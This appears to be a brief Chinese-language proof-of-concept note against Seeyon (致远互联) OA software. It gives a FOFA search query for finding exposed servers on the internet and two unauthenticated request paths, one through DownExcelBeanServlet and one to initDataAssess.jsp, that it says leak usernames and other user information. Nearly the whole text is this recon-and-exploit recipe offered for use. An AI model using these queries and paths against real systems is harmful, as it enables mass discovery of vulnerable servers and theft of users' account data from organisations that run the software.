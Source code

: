 ## 资产收集：
fofa：body="yyoa" && app="致远互联-OA"
## POC：
等到用户名等用户信息：  
`/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0`  
或者  
`/yyoa/assess/js/initDataAssess.jsp`